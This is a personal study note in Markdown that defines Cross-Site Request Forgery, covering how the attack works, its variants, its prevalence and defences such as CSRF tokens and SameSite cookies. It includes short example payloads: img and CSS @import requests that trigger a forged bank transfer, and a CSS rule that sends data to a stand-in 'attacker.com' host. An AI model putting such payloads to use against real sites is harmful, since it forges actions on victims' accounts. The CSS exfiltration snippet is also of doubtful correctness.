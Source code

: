 ```yaml
---
ID: 2025-02-03-15:11
tags:
  - "#definition"
  - cyberSecurity
  - clientSideAttacks
  - CSFR
---
```

Also known as XSRF, Confused Deputy, one-click-attack, Session Riding [[(Maes, Heyman, et al., 2009)]]

## Definition

Cross-Site Request Forgery (CSRF) is an attack that forces an authenticated user to perform an unwanted action on a website they are logged in to, without their knowledge or consent
- This is possible exploiting authentication cookies or [[sessions token]] of the victim [[(Tkachenko et al., 2024)]]
- ==Many websites trust requests from an authenticated browser, without checking whether the user actually intended them==

Even if is called Cross-Site Request Forgery, technically the CSRF attack can be executed withing the same domain, due to a [[XSS (cross site scripting)]] vulnerability or when multiple users can host a web site within the same domain (e.g., universities) [[(Maes, Heyman, et al., 2009)]]

### CSRF Mechanism

- The user is logged into a legitimate website (e.g., bank.com) and remains authenticated while browsing the internet[^1]. This website must use implicit authentication
- An attacker tricks the user into visiting *another* malicious website[^2]
- The malicious website executes code that sends an HTTP request to the previous legitimate website (bank.com), exploiting the user's active session. The HTTP request ==will automatically attach the session cookie, therefore the attacker does not have even to know it== (unless [[SameSite cookie]] are activate, which is only true in Chrome by now)
- Since the user's browser is still authenticated, the legitimate website accepts the request as valid, performing the fraudulent action on behalf of the user.

### How can the attacker know what HTTP request to send?

The hacker has to know pretty well the API structure of the target website in order to make the right HTTP request that will, for example, execute an unwanted transaction. This is possible because:
- he is using the website `bank.com` himself, so he can see what API are used
- he has reverse engineered the website's API structure
- he has access to technical documentation of the target website 
- he exploits common pattern such as `POST /update_profile`
- he has access to company documentation, emails, or public discussion forums [[(Felsch, Heiderich, et al., 2015)]]

The attack does not even require a JavaScript snippet to be executed. If the server does not check the type of request, is it technically possible to execute a CSRF using GET request implicitly defined in:

- HTML, via  `<img>`, or `<a>` tags [[(Felsch, Heiderich, et al., 2015)]]

```html
<img src="https://banca.com/transfer?amount=5000&to_account=123456">
```

- CSS, using HTML attributes as source of dynamic values [[(Maes, Heyman, et al., 2009)]]

```css
/* it will execute a GET request with parameters */
div[secret-data] {
    background-image: url("https://attacker.com/log?data="attr(secret-data));
}
```

- using the CSS `@import` statement

```css
@import url("https://banca.com/transfer?amount=5000&to_account=123456");
```

### CSRF variants

**Login CSRF** [[(Trampert, Stock, et al., 2023)]]
The attacker forces the victim to log into the attacker’s account on some service. While this may sound counterintuitive initially, it allows the attacker to track their victim’s activities, e.g., following their search history, since that history is now tied to the attacker’s account.

**Reflected CSRF** [[(Shahriar, Zulkernine, et al., 2010)]]
In a reflected CSRF attack, the injected payload is hosted in a web page *other* than a trusted website page. Thus, a victim is exposed to an attack when he logs on to a trusted website and browse to a different website simultaneously (two browsers tabs are therefore open)

**Stored CSRF** [[(Shahriar, Zulkernine, et al., 2010)]]
In a stored CSRF attack, the payload is present as part of a webpage downloaded from a trusted website. These can be found in blogs, forums, and message boards, due to an XSS vulnerability.

### Risks and consequences

Common CSFR includes:
- changing user's credentials, making the account unusable for the user and stealing his identity
- sending unwanted transactions

### Prevalence

Among 5,000 randomly selected scan targets of HTTP requests by Acunetix in 2020, 36% were found vulnerable to CSRF attacks [[(Ramadan, Osama, et al., 2024)]]

### Mitigation techniques

**SOP (same-origin policy)**
 [[SOP (Same-Origin Policy)]] is the first layer of protection, preventing malicious script to directly read cookies or access the DOM of other websites, but it does not prohibit an attacker to launch any arbitrary request to a trusted website [[(Shahriar, Zulkernine, et al., 2010)]]

**CSRF Token**
Using [[CSRF (cross-site request forgery) token]], which are in essence random values embedded into form fields.
- If the server does not receive the token that expects, the HTTP request is rejected

**Source verification (referrer header)**
Verifying the source of the request (original header) could be a valid mitigation strategy.
- the `referrer` header contains the domain address of a website that initiates a request
- it has been proposed as a solution, but it carries privacy concerns, and therefore is often suppressed by browsers
- The `origin` header is more considerate of privacy but not well supported [[(Pelizzi, Sekar, et al., 2011)]]

**Other mitigation strategies**
- limiting HTTP request methods
- using [[SameSite cookie]] [[(Saleh, Malkawi, et al., 2024)]]
- closing all the tabs except for the one you are using may be an effective mitigation strategy, but
	1. the website you are visiting is vulnerable to XSS, a request may be executed even in the same domain
	2. if you landed on a malicious website *before* reaching the target, malicious HTTP requests may have been hidden and then executed in the background (this can be done with a [[service worker]])

**Whitelisting and blacklisting of domain** [[(Shahriar, Zulkernine, et al., 2010)]]
Cross-origin policies (a whitelist of valid URLs) have been proposed, but:
- manual process that can be badly configured and that is error prone
- not scalable and has to be maintained over time
- stored CSRF are not detectable in this way (e.g., CSRF that leverage on a stored XSS and that are lunched each time a user lands to a specific part of an application)

Other client-side protections from [[(Maes, Heyman, et al., 2009)]]:
- browser extensions and content policies: RequestPolicy, Browser-Enforced Authenticity Protection (BEAP), CSRF Protector, SOMA[^3]
- client-side proxy: RequestRodeo

Usually these countermeasures monitor outgoing requests and incoming responses, and filter out implicit authentication or block cross-domain requests. Cons:
- degrading user experience
- degrading application performance
- fail to protect against GET-based CSRF

**Why not blocking all the cross-domain POST request?**
- sometimes front-end and back-end live in different domains (e.g., `example.com` is a SPA application written in Vue.js ask requests to a PHP back-end which is a completely different application hosted somewhere else)
- some web applications leverage on public APIs
- third-party services (Stripe, for payments, [[OAuth]] or [[OpenID]] for authentication) are used

---

#### See also

There are similarities between CSRF and [[XSS (cross site scripting)]]. While the XSS is a general abuse of a website leading to malicious script execution, CSRF is focused on performing actions on behalf of an unsuspecting user (see [[XSS and CSFR comparison]]).

#### References
- [[(Tkachenko et al., 2024)]]
- Included in literature review, by [[(Onukrane, Skrodelis, et al., 2023)]]
- Unsystematic and short literature review by [[(Farah, Shojol, et al., 2016)]]
- Server-side mitigation tool jCSRF, by [[(Pelizzi, Sekar, et al., 2011)]]
- Attack simulation, by [[(Saleh, Malkawi, et al., 2024)]]
- client-side defense policies, [[(Maes, Heyman, et al., 2009)]]
- server-side proxy, [[(Liu, Shen, et al., 2020)]]
- ML comparison in CSRF,  [[(Ramadan, Osama, et al., 2024)]]
- client-side detection, by [[(Shahriar, Zulkernine, et al., 2010)]]

[^1]: For more about authentication mechanisms and session management, see [[cookie]], [[sessions token]], [[JWT (JSON Web Token)]]

[^2]: This can be done in different forms. For example, via a [[phishing]] email, using malicious embedded image or malicious forms in a website vulnerable to [[XSS (cross site scripting)]], exploiting [[clickjacking]] or [[tabnabbing]] attacks

[^3]: A thorough description of browser policies at [[(Stamm, Sterne, et al., 2010)]]
